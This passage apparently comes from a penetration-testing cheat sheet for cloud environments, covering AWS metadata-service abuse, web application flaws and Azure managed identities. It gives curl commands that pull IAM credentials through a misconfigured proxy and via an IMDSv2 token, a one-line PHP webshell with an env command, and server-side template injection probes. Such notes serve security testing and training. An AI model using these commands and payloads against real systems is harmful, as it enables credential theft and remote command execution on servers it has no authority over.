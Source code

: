 - Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

```bash
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

#### IMDS Version 2 has some protections 
- but these commands can be used to access it
```bash
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` 
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```

## Web application vulnerabilities
- Here are some generic things ot look for:
  - Out of date web technologies with known vulns
  - SQL or command injection vulns
  - Server-side-request forgery (SSRF)
  - Arbitrary file upload
- Good place to start post shell:
  - Creds in metadata service
  - Certificates
  - Environment variables
  - Storage Accounts

### Insecure file upload
#### Upload a webshell to a insecure webapp
- Simple webshell
```
<?php
	system($_REQUEST['cmd']);
?>
```

#### Execute env
```
?cmd=env
```
- if the app service contains environment variables `IDENITY_HEADER` and `IDENTITY_ENDPOINT`, it has a managed identity.

#### Exploit
- Go to [Exploitation Managed Identity](/cloud/azure/privilege-escalation.md#Managed-Identity)

### Server Side Template Injection
- SSTI allows an attacker to abuse template syntax to inject payloads in a template that is executed on the server side. 
- That is, we can get command execution on a server by abusing this.
- Find we webapp which is vulnerable, test with injectin a expression ```{{7*7}}``` and see if it gets evaluated.
- The way expression is evaluated means that, most probably, either PHP or Python is used for the web app. We may need to run some trial and error methods to find out the exact language and template framework. 
- Use ```{{config.items()}}``` and see if it works.
